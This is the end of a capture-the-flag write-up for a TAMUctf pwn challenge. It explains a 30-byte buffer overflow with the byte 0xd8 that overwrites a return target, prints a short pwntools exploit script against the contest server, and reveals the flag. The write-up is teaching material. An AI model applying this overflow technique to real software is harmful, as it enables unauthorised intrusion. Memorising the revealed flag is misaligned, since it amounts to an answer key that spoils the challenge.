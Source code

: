 The missing piece of our payload is **0xd8**.

We can now craft our payload to solve the problem:

```
payload = <30 byte buffer> + 0xd8
```

Sample exploit code:

```

./exploit.py

from pwn import \*

r = remote('pwn.tamuctf.com', 4322)

offset = 30  
payload = ""  
payload += "A"\*offset  
payload += "\\xd8"

r.sendlineafter("call?",payload)  
r.recvline()  
r.recvline()  
log.info("Flag: {}".format(r.recvline()))
```

Flag: **gigem{4ll\_17\_74k35\_15\_0n3}**

\-

Thank you for reading. Hope you learned something from this write-up. Feel free to drop any comments on this one. 

— ar33zy
